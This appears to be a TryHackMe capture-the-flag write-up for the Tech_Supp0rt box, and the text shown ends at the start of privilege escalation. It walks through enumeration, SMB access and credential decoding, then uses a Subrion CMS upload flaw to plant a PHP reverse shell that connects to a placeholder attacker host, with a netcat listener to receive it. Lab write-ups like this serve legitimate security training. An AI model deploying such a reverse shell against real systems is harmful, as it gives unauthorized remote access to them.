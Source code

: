 # Tech_Supp0rt: 1 - TryHackMe Writeup

## Description
Tech_Supp0rt: 1 is a beginner-friendly box on TryHackMe designed to simulate a real-world technical support scenario. The challenge involves identifying vulnerabilities, exploiting misconfigurations, and escalating privileges to gain root access. This writeup documents the step-by-step approach taken to solve the machine, focusing on practical techniques and learning outcomes.

**Note:** Metasploit was not used during the solution of this machine. All exploitation and enumeration were performed manually to encourage deeper understanding of the underlying processes.

---

## Enumeration
For enumeration I used a simple nmap scan with the key -A (which includes -sC - simple scripts, -sV - port and services scan, -O - OS detection):

```bash
nmap -A 10.201.31.100
```

![Nmap Scan](assets/nmap-scan.png)

The scan has identified 4 open ports:
- 22: SSH
- 80: HTTP
- 139: Legacy SMB file sharing
- 445: Current standard for SMB file sharing

The detailed nmap scan also revealed that the security for Samba is relatively weak and can be accessed in guest mode (no authenticaion), so I will start with searching through the samba shared files. For this we will use this smbclient command:

```bash
smbclient -L //10.201.31.100/ -N
```

This command lists all the available shares (-L) on the target as well as supresses the password prompt, since we already know that a connection can be established with a guest account:


![Samba Scan](assets/smb-scan.png)

The websrv share is exactly what we are looking for here. Lets connect to the share and inspect what it contains. For this purpose I used the same command, but removed the -L key to simply connect to the share instead of listing:

```bash
smbclient //10.201.31.100/websvr -N
```

![Samba Share](assets/smb-share.png)


And there it is! Using simple commands - ls and get, we have spotted the file enter.txt and downloaded it for later inspection.

Let us take a look at what is inside the file we have just downloaded.

![Enter.txt File](assets/enter.txt.png)

The samba share is cleared now. Now we will see what we have on the HTTP front, but first lets assess the txt file. The file describes 'goals' for the admin, they include:
- Setting up a fake popup website
- Fix the subrion from the /panel, as there is an issue with the /subrion
- Edit the wordpress webiste

This is all very important information. The admin gave us the location to one of the panels - the subrion panels. Under that he also included the credentials for subrion:
- **admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk**

However it also states the credentials were 'cooked with a magical formula', which probably implies encoding of some kind. Upon a first look we can conclude that the key is not base64 or base32 encoded, since they typically contain a signature '=' or '==' sign at the end.

After running multiple tests on the string and searching for a good decypher tool, I found this one:
- https://gchq.github.io/CyberChef

This tool can be used to encode/decode various inputs such as base64, base32, hexdump and many more. However, the most interesting tool on this website is 'Magic', which really connects to the hint left to us by the admin - "Cooked with a **magic** formula".

Using that tool on the key we found, gives us the following result:

![CyberChef](assets/CyberChef.png)


So here are the credentials for the Subrion panel:
- **Username: admin**
- **Password: Scam2021**

---

## Gaining Access

Now, that we have the credentials for the Subrion panel, let us go and see the web page for ourselves. First lets head to http://10.201.31.100/. 

We are greeted with the defualt apache index.html page:

![Apache Page](assets/apache-page.png)

Now lets try and view the subrion using /subrion:

![Subrion Issue](assets/subrion-issue.png)

I assume this is the issue the admin was talking about. The CMS is misconfigured which leads to a redirection of the home page.

Since we already know that a subrion panel exists and that it should not have the smae issue, lets visit that page and use the credentials we have already acquired:

![Subrion Logoin](assets/subrion-login.png)


![Subrion Panel](assets/subrion-panel.png)

Now, if we go onto the System ---> System on the left dock we can see that the site url is misconfigured:

![Subrion Panel](assets/subrion-misconfig.png)

Fix the issue by inserting the correct IP address instead of the faulty one. This will be crucial for latter steps.

The issue with redirection is now fixed, lets proceed.

Now we have to find a way to plant a reverse shell to get ahold of the system. There are mutliple ways of achieving that:
- Metasploit framework - can quickly discover a vulnerability and exploit it.
- Finding the vulnerability manually, but using a pre-written exploit - finding the vulnerability in the web and using a script written to exploit that vulnerability.
- Manually finding the vulnerability and exploiting it.

The method we are going to be using is the last one. For simple CTFs like the one we are doing, performing a completely manual pentest seems to me like a much better option for self-development.

Uploading a reverse shell and launching it could be done in two ways on Subrion. First way is creating a new php page with a code instructing it to send a interactive bash shell to your session (IP + port). I have failed to achieve the result this way, since Subrion was really hesitant about importing php code onto a page, even simple obfuscation did not work. 

The second way would be to upload a php script from personal files onto the CMS and using the /uploads directory to open it up. Here things are also a little tricky, most likely due to the Apache configuration. I believe the file .htaccess is blocking any php files from running, or it could be the Subrion itself. Nevertheless, while trying to find a way to overcome this issue, I found this on one of descriptions of Subrion CMS vulnerabilities:

**/panel/uploads in Subrion CMS 4.2.1 allows remote attackers to execute arbitrary PHP code via a .pht or .phar file, because the .htaccess file omits these.**

This confirmed my deduction regarding .htaccess block and also gave us a way to create and plant the php code into the uploads directory and afterwards successfully launch it.

Here is what we are going to do:

Create a simple php file with the following code, you can use the following:

```bash
<?php
system("bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1'");
?>
```

I am going to use my ip plus port 7777 since it is very rarely occupied.
Name your file something like shell.phar or shell.pht (.phar worked perfectly for me).

![shell.phar file](assets/shell-file.jpg)

After creating the file, go to Content ---> Uploads in Subrion Panel. You should get a page which looks like this:

![Subrion Uploads](assets/subrion-uploads.png)

On the top panel, there is a button 'Upload files' or just drag-and-drop the reverse shell you have just created:

![Shell Uploaded](assets/shell-uploaded.png)

Nice! Now, before launching the shell, lets create a session on our end that awaits incoming connections. We can accomplish that with the following netcat command:

```bash
nc -nlvp 7777
```

The last parameter is the port number that you have used when creating the reverse shell, as I have previously stated, I chose 7777.

![NetCat Listen](assets/netcat-listen.png)

Now that our devices is awaiting a connection attempt, lets launch the reverse shell we have planted:

Go to the directory /subrion/uploads/NAME_OF_THE_SHELL in the browser. For example, the link I will use to start the reverse shell is:

```bash
http://10.201.31.100/subrion/uploads/shell.phar
```

![Shell URL](assets/shell-url.png)

And this is the result we get on our device:

![Connection Established](assets/nc-connection.png)

We have successfully deployed a reverse shell. Now we need to perform a Local Privilege Escalation (LPE) to gain access to root.txt.

Let's look at what we have on the server:

![Listing Server](assets/listing-server.png)

The Subrion directory is now useless; it has served its purpose. The test directory is not something we are going to be looking at, it is useless as well. 

While running a few scans, such as capabilities (```getcap -r / 2>/dev/null```)